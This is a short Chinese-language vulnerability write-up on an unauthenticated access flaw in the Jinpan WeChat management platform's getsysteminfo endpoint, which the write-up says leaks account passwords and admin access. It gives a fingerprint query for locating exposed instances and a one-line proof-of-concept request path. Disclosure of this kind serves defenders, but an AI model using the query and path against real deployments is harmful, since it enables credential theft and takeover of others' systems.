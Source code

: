 # 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

## 漏洞影响

金盘 微信管理平台

## 网络测绘

```
title="微信管理后台" && icon_hash="116323821"
```

## 漏洞复现

登陆页面

![image-20230828162340318](images/image-20230828162340318.png)

验证POC

```
/admin/weichatcfg/getsysteminfo
```

![image-20230828162351977](images/image-20230828162351977.png)